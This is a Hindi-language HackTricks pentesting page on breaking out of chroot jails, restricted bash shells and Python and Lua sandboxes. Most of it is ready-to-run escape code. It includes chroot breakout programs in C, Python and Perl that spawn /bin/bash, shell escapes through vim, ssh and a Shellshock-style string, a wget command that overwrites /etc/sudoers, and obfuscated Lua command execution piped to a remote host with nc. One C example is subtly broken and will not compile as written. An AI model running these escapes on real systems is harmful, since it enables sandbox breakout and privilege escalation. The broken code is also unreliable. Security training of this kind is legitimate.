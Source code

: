 # जेल से भागना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}

## **GTFOBins**

**देखें** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **क्या आप "Shell" प्रॉपर्टी के साथ कोई बाइनरी निष्पादित कर सकते हैं**

## Chroot भागना

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) से: chroot तंत्र **जानबूझकर छेड़छाड़** के खिलाफ **सुरक्षित** (**root**) **उपयोगकर्ताओं** से **रक्षा** के लिए **नहीं है**। अधिकांश सिस्टम पर, chroot संदर्भ ठीक से स्टैक नहीं होते हैं और chrooted प्रोग्राम **पर्याप्त विशेषाधिकार के साथ एक दूसरा chroot करने में सक्षम हो सकते हैं**।\
आमतौर पर इसका मतलब है कि भागने के लिए आपको chroot के अंदर root होना चाहिए।

{% hint style="success" %}
**उपकरण** [**chw00t**](https://github.com/earthquake/chw00t) को निम्नलिखित परिदृश्यों का दुरुपयोग करने और `chroot` से भागने के लिए बनाया गया था।
{% endhint %}

### Root + CWD

{% hint style="warning" %}
यदि आप chroot के अंदर **root** हैं तो आप **दूसरा chroot** बनाकर **भाग सकते हैं**। इसका कारण यह है कि 2 chroots एक साथ नहीं रह सकते (Linux में), इसलिए यदि आप एक फ़ोल्डर बनाते हैं और फिर उस नए फ़ोल्डर पर **एक नया chroot** बनाते हैं जबकि **आप इसके बाहर हैं**, तो आप अब **नए chroot के बाहर** होंगे और इसलिए आप FS में होंगे।

यह इसलिए होता है क्योंकि आमतौर पर chroot आपकी कार्यशील निर्देशिका को निर्दिष्ट स्थान पर नहीं ले जाता है, इसलिए आप एक chroot बना सकते हैं लेकिन इसके बाहर रह सकते हैं।
{% endhint %}

आमतौर पर आप chroot जेल के अंदर `chroot` बाइनरी नहीं पाएंगे, लेकिन आप **एक बाइनरी संकलित, अपलोड और निष्पादित** कर सकते हैं:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>पायथन</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>पर्ल</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### रूट + सेव्ड fd

{% hint style="warning" %}
यह पिछले मामले के समान है, लेकिन इस मामले में **हमलावर वर्तमान निर्देशिका के लिए एक फ़ाइल वर्णनकर्ता संग्रहीत करता है** और फिर **एक नए फ़ोल्डर में chroot बनाता है**। अंततः, चूंकि उसके पास **chroot के बाहर** उस **FD** तक **पहुँच** है, वह इसे एक्सेस करता है और वह **बच निकलता है**।
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD को Unix Domain Sockets के माध्यम से पास किया जा सकता है, इसलिए:

* एक चाइल्ड प्रोसेस बनाएं (fork)
* UDS बनाएं ताकि पैरेंट और चाइल्ड बात कर सकें
* चाइल्ड प्रोसेस में एक अलग फ़ोल्डर में chroot चलाएं
* पैरेंट प्रोसेस में, एक FD बनाएं जो नए चाइल्ड प्रोसेस के chroot के बाहर है
* UDS का उपयोग करके चाइल्ड प्रोसेस को वह FD पास करें
* चाइल्ड प्रोसेस उस FD पर chdir करें, और क्योंकि यह अपने chroot के बाहर है, वह जेल से भाग जाएगा
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* च्रूट के अंदर एक डायरेक्टरी में रूट डिवाइस (/) को माउंट करना
* उस डायरेक्टरी में च्रूट करना

यह Linux में संभव है
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* च्रूट के अंदर एक डायरेक्टरी में procfs को माउंट करें (यदि यह अभी तक नहीं है)
* एक pid देखें जिसमें एक अलग root/cwd एंट्री है, जैसे: /proc/1/root
* उस एंट्री में च्रूट करें
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* एक Fork (चाइल्ड प्रोसेस) बनाएं और FS में गहरे एक अलग फ़ोल्डर में च्रूट करें और उस पर CD करें
* पैरेंट प्रोसेस से, उस फ़ोल्डर को स्थानांतरित करें जहां चाइल्ड प्रोसेस च्रूट के बच्चों के च्रूट से पहले के फ़ोल्डर में है
* यह चाइल्ड प्रोसेस खुद को च्रूट के बाहर पाएगा
{% endhint %}

### ptrace

{% hint style="warning" %}
* कुछ समय पहले उपयोगकर्ता अपने ही प्रोसेस को अपने प्रोसेस से डिबग कर सकते थे... लेकिन अब यह डिफ़ॉल्ट रूप से संभव नहीं है
* फिर भी, यदि यह संभव है, तो आप एक प्रोसेस में ptrace कर सकते हैं और इसके अंदर एक shellcode निष्पादित कर सकते हैं ([इस उदाहरण को देखें](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

जेल के बारे में जानकारी प्राप्त करें:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH संशोधित करें

जांचें कि क्या आप PATH env वेरिएबल को संशोधित कर सकते हैं
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vim का उपयोग करना
```bash
:set shell=/bin/sh
:shell
```
### स्क्रिप्ट बनाएं

जांचें कि क्या आप _/bin/bash_ के रूप में सामग्री के साथ एक निष्पादन योग्य फ़ाइल बना सकते हैं
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Get bash from SSH

यदि आप ssh के माध्यम से पहुँच रहे हैं, तो आप bash शेल निष्पादित करने के लिए इस तरकीब का उपयोग कर सकते हैं:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### घोषित करें
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

आप उदाहरण के लिए sudoers फ़ाइल को ओवरराइट कर सकते हैं
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### अन्य तरकीबें

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**यह पृष्ठ भी दिलचस्प हो सकता है:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## पायथन जेल

पायथन जेल से बचने के बारे में तरकीबें निम्नलिखित पृष्ठ पर:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## लुआ जेल

इस पृष्ठ पर आप लुआ के अंदर आपके पास मौजूद वैश्विक कार्यों को पा सकते हैं: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**कमांड निष्पादन के साथ इवैल:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
कुछ तरकीबें **बिना डॉट का उपयोग किए लाइब्रेरी के फ़ंक्शन कॉल करने के लिए**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
लाइब्रेरी के कार्यों की गणना करें:
```bash
for k,v in pairs(string) do print(k,v) end
```
ध्यान दें कि जब भी आप पिछले एक लाइनर को **अलग lua वातावरण में निष्पादित करते हैं, तो कार्यों का क्रम बदल जाता है**। इसलिए यदि आपको एक विशिष्ट कार्य को निष्पादित करने की आवश्यकता है, तो आप विभिन्न lua वातावरणों को लोड करके और le पुस्तकालय के पहले कार्य को कॉल करके एक ब्रूट फोर्स हमला कर सकते हैं:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**इंटरएक्टिव lua शेल प्राप्त करें**: यदि आप एक सीमित lua शेल के अंदर हैं, तो आप एक नया lua शेल (और उम्मीद है कि अनलिमिटेड) प्राप्त कर सकते हैं:
```bash
debug.debug()
```
## संदर्भ

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (स्लाइड: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
